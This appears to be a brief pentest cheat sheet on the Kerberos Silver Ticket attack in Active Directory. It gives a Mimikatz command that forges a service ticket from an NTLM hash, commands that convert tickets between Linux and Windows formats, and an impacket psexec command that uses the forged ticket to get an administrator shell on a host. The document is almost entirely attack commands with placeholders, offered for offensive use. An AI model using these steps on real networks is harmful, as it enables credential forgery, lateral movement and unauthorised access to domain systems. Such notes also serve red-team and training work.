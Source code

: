 # Silver Ticket Attack
Requires a service account password or NTLM hash, to forge a TGS. Can be avoided with PAC enabled?

## Create a ticket for the service with Mimikatz
`kerberos::golden /user:<USER> /domain:<DOMAIN> /sid:<DOMAIN_SID> /target:<TARGET/HOST.DOMAIN.FQDN> /rc4:<NTLM_MACHINE> /service:<SERICE>`

## Swapping tickets between Linux-Windows
`python ticket_converter.py <LINUX.ccache> <WINDOWS.kirbi>`
`python ticket_converter.py <WINDOWS.kirbi> <LINUX.ccache>`

## Then use the same steps as a Golden ticket with Mimikatz
`export KRB5CCNAME=/home/user/ticket.ccache`
`psexec.py -k -no-pass -dc-ip <IP> AD/administrator@192.168.1.100`